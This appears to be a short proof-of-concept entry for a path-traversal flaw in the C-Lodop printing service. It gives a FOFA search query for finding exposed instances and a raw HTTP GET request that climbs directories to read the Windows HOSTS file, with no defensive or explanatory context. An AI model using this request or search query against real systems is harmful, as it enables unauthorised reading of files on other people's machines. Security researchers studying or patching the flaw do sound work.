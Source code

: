 FOFA
----

    title="C-Lodop"

POC
---

    GET /../../../../../../../../windows/System32/drivers/etc/HOSTS HTTP/1.1
    Host: 127.0.0.1
    ....